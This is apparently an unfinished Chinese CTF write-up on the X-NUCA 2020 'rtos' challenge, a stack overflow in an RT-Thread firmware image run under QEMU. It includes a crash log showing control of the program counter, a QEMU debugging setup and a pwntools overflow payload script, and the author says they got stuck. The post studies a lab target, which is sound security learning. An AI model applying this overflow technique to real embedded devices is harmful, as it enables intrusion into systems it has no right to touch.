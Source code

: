 ```yaml
---
title: X-NUCA'2020 rtos
date: 2020-11-22 00:00:00
categories:
- CTF/Pwn
tags: rtos 
---
```


> 卡住了...更新中...rt-thread的main函数栈溢出，不用getshell，ROP/shellcode读出根目录下的flag即可：


赛题仓库：[XNUCA2020Qualifier](https://github.com/NeSE-Team/XNUCA2020Qualifier)，目前未更新此题。故给出题目附件如下，比赛时开始没符号，后来因为零解，然后放了有符号的ELF版，比赛最后服务器端的pow也直接去掉了：

- [rtos_no_symbols.zip](https://xuanxuanblingbling.github.io/assets/attachment/rtos/rtos_no_symbols.zip)
- [rtos_symbols.zip](https://xuanxuanblingbling.github.io/assets/attachment/rtos/rtos_symbols.zip)


参考：[凝聚网络安全工作室 X-NUCA'2020 WriteUp: rtos](https://blog.cnss.io/2020/11/01/X-NUCA_2020_WriteUp_-_CNSS/#rtos)

## 开发尝试

- [rt-thread 源码仓库](https://github.com/RT-Thread/rt-thread)
- [rt-thread 文档中心](https://www.rt-thread.org/document/site/)
- [rt-thread qemu入门指南](https://github.com/RT-Thread/rtthread-manual-doc/blob/master/documentation/quick_start_qemu/quick_start_qemu_linux.md)

编译方法非常简单，进`/rt-thread/bsp/qemu-vexpress-a9/`，然后执行`scons`即可编译。业务代码可以修改`/rt-thread/bsp/qemu-vexpress-a9/applications/main.c`，尝试直接输出flag：

```c
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <dfs_posix.h> 

int main(void)
{
	char a[0x64];
	int fd;
    fd = open("/flag",O_RDONLY);
    read(fd,a,0x64);
    puts(a);
    return 0;
}
```

需要在sd卡中新建flag，可以进rt-thread后新建，也可以是用linux直接挂载文件系统新建

## 题目漏洞

> 一开始研究半天咋跟这玩意交互，直接qemu启动后，命令行里输入没有显示，后来发现使用文件加管道重定向给qemu可以获得比较正常的输入输出

就是个栈溢出，但是溢出点的数值不知道为啥被改了，看起来是数值加3：

```bash
$ python3 -c "print('1'*0x40)" | ./run.sh
WARNING: Image format was not specified for 'sd.bin' and probing guessed raw.
         Automatically detecting the format is dangerous for raw images, write operations on block 0 will be restricted.
         Specify the 'raw' format explicitly to remove the restrictions.
pulseaudio: set_sink_input_volume() failed
pulseaudio: Reason: Invalid argument
pulseaudio: set_sink_input_mute() failed
pulseaudio: Reason: Invalid argument
qemu-system-arm: warning: hub 0 is not connected to host network

 \ | /
- RT -     Thread Operating System
 / | \     4.0.3 build Oct 30 2020
 2006 - 2020 Copyright by rt-thread team
lwIP-2.0.2 initialized!
[I/sal.skt] Socket Abstraction Layer initialize success.
[I/SDIO] SD card capacity 65536 KB.
file system initialization done!
welcome to simple rtos pwn level 1

read 1111111111111111111111111111111111111111111111111111111111111111
byebye
prefetch abort:
Execption:
r00:0x00000000 r01:0x07860785 r02:0x00000786 r03:0x00000000
r04:0xdeadbeef r05:0xdeadbeef r06:0xdeadbeef r07:0xdeadbeef
r08:0xdeadbeef r09:0xdeadbeef r10:0xdeadbeef
fp :0x31313131 ip :0x01010101
sp :0x6009ce78 lr :0x60012cbc pc :0x31313134
cpsr:0x60000033
shutdown...
```

修改`run.sh`开始调试：

```bash
qemu-system-arm -M vexpress-a9 -smp cpus=2 \
	-kernel binary.bin \
	-nographic -sd sd.bin -net nic \
	-serial mon:stdio \
	-monitor /dev/null \
	-gdb tcp::1234 -S
```

但是如果输入包含`0x01`，就会发生奇怪额现象....

```python
from pwn import *
context(arch='arm',log_level='debug')

io = process(["bash","./run.sh"])
io.recvuntil("2006 - 2020 Copyright by rt-thread team") 
payload = 'A'*(0x20)
payload += p32(0x11223344) 
payload += p32(0x60012518)
io.sendline(payload)
io.interactive()
```

输入的`0x60012518`就会再过了scanf后直接在栈上变成`0x60002518`

```c
───────────────────────────────────[ DISASM ]───────────────────────────────────
 ► 0x60012558    pop    {fp, pc}
    ↓
   0x60002518    andeq  r0, r0, r0
   0x6000251c    andeq  r0, r0, r0
   0x60002520    andeq  r0, r0, r0
   0x60002524    andeq  r0, r0, r0
   0x60002528    andeq  r0, r0, r0
   0x6000252c    andeq  r0, r0, r0
   0x60002530    andeq  r0, r0, r0
   0x60002534    andeq  r0, r0, r0
   0x60002538    andeq  r0, r0, r0
   0x6000253c    andeq  r0, r0, r0
───────────────────────────────────[ STACK ]────────────────────────────────────
00:0000│ sp   0x6009ce70 —▸ 0x11223344 ◂— 0
01:0004│ r11  0x6009ce74 —▸ 0x60002518 ◂— 0
02:0008│      0x6009ce78 —▸ 0xdeadbeef ◂— 0
03:000c│      0x6009ce7c ◂— 0
04:0010│      0x6009ce80 —▸ 0xdeadbeef ◂— 0
05:0014│      0x6009ce84 —▸ 0x6001ed64 ◂— push   {r4, fp, lr} /* 0xe92d4810 */
06:0018│      0x6009ce88 —▸ 0x23232323 ◂— 0
07:001c│      0x6009ce8c ◂— andeq  r1, r1, r0, lsr #29 /* 0x11ea0 */
─────────────────────────────────[ BACKTRACE ]──────────────────────────────────
 ► f 0 60012558
────────────────────────────────────────────────────────────────────────────────
Breakpoint * 0x60012558
pwndbg> 
```

进行不下去了...

## 引申阅读

- [Dive into VxWorkis Based IoT Device - Debug the Undebugable Device - resize](https://i.blackhat.com/asia-19/Fri-March-29/bh-asia-Zhu-Dive-into-VxWorks-Based-IoT-Device-Debug-the-Undebugable-Device.pdf)
- [利用Marvell Avastar Wi-Fi中的漏洞远程控制设备：从零知识入门到RCE漏洞挖掘利用（上）](https://www.anquanke.com/post/id/169892)
- [利用Marvell Avastar Wi-Fi中的漏洞远程控制设备：从零知识入门到RCE漏洞挖掘利用（下）](https://www.anquanke.com/post/id/170078)